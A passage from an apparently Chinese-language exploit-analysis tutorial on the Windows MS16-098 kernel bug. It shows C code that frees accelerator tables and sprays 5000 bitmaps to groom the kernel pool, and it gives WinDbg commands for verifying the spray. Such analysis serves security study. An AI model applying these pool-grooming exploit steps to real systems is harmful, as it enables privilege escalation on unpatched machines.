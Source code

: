 ```c
	for (int k = 2000; k < 4000; k++) {
		DestroyAcceleratorTable(pAccels[k]);
		DestroyAcceleratorTable(pAccels2[k]);
	}
}
```

用GIF图表示会更清晰易懂：

![img](MS16-098.assets/animation.gif)

上述代码经过多次`allocation/de-allocation`和精心设计的参数大小，使内存池达到了预想状态，下面来分别解析：

### Part II Code

#### Step 1

```C
HBITMAP bmp;

        // Allocating 5000 Bitmaps of size 0xf80 leaving 0x80 space at end of page.
        for (int k = 0; k < 5000; k++) {
                bmp = CreateBitmap(1670, 2, 1, 8, NULL); 
                bitmaps[k] = bmp;
        }
```

这段代码会在新的内存页上各分配0xf80大小的Bitmap，剩余0x80大小在页结尾。检查是否spray成功，可在bFill函数内的PALLOCMEM2处下断点，然后`!poolused 0x8 Gh?5`。值得注意的是如何计算CreateBitmap转换成Bitmap Objects的大小，最直接的方法就是预估+`!poolfind`来确定了。
